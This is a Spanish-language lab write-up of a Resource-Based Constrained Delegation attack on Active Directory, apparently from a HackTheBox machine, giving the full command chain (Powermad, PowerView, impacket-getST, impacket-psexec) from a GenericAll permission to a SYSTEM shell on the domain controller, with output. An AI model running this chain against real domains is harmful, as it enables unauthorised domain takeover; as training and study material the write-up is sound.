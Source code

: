 ```yaml
---
title: Resource-Based Constrained Delegation Attack
author: miguel3023
date: 2022-12-26
categories: [Notes]
tags: [Active Directory]
---
```


Este ataque es de una escalada de privilegios, esto, en un caso específico se pudo descubrir con **sharphound** y mediante **BloodHound** y un recurso compartido a nivel de red que con "net group" pudimos ver el permiso "Generic All" aplicado a los miembros del dominio

Extraído de de [Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation#attack) 

Primero lo que tenemos que hacer es subirnos el [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad) en la máquina víctima y luego el [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1). Eso si, hay que importar ambos, una vez los hayamos subido en la máquina víctima, de la siguiente manera

```
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\Powermad.ps1
```

Luego ejecutamos el siguiente comando (Lo que dice "SERVICEA" lo puedes cambiar por lo que quieras y la parte de los números, que es una constraseña, también, pero simplemente recuerda esto para luego) 

```
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Luego puedes verificar que lo anterior se ejecutó correctamente de la siguiente forma

```
Get-DomainComputer SERVICEA
```

Una vez hecho esto, hacemos el siguiente comando para almacenar en una variable el Domain-Sid

```
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
```

Y lo comprobamos haciendo

```
echo $ComputerSid
```

Luego ejecutamos esto 

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
```

Luego el siguiente:

```
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

Luego esta

```
$SD.GetBinaryForm($SDBytes, 0)
```

Luego (en este aso se pone "dc" porque así se llama la máquina. En hacktricks trae una variable, pero esa variable nunca la hemos definido, por ende ponemos "dc")

```
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDByte
s}
```

Ya para comprobar todo lo anteriormente hecho hacemos, luego te debería de mostrar algo como lo siguiente

```
Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

```

Ya por último con la herramienta [impacket-getST](https://github.com/tothi/rbcd-attack#getting-the-impersonated-service-ticket) podemos obtener el TGT del usuario administrator (En SERVICEA ponemos el nombre del objeto que creamos anteriormente y le proporcionamos la contraseña que hemos creado)

```
❯ impacket-getST -spn cifs/dc.dominio.com -impersonate administrator -dc-ip <ip> dominio.htb/SERVICEA$:123456

[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

El TGT se guardó en este caso en "administrator.ccache" y lo que tenemos que hacer es igualar una variable de entorno en donde nos guardó el TGT

```
❯ export KRB5CCNAME=administrator.ccache
```
Y ya por último puedes conectarte con "psexec" como administrator sin proporcionar credenciales

```
❯ impacket-psexec -k dc.support.htb

*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file tDagzSkX.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service lxWO on dc.support.htb.....
[*] Starting service lxWO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>

```

`Nota`: Todo esto también se puede hacer con **Rubeus**

## Permiso Generic All

"Generic All" es un permiso en entornos de directorio activo que le da a un usuario o grupo acceso completo a todos los objetos en el
 directorio. Esto incluye la capacidad de leer, escribir y ejecutar todos los archivos y carpetas en el directorio, así como modifica
r los atributos de los objetos y crear y eliminar objetos.

En general, "Generic All" se utiliza para otorgar acceso completo a un usuario o grupo a todos los objetos en un directorio, lo que p
uede ser útil en casos en los que se desea dar acceso total a un usuario o grupo para realizar tareas de administración o mantenimien
to en el directorio. Sin embargo, también es importante tener en cuenta que otorgar permisos "Generic All" a un usuario o grupo puede
 ser un riesgo de seguridad si no se hace de manera adecuada, ya que puede dar a ese usuario o grupo un control total sobre los objet
os en el directorio. Por lo tanto, es importante utilizar este permiso de manera cuidadosa y asegurarse de que solo se conceda a usua
rios o grupos de confianza.

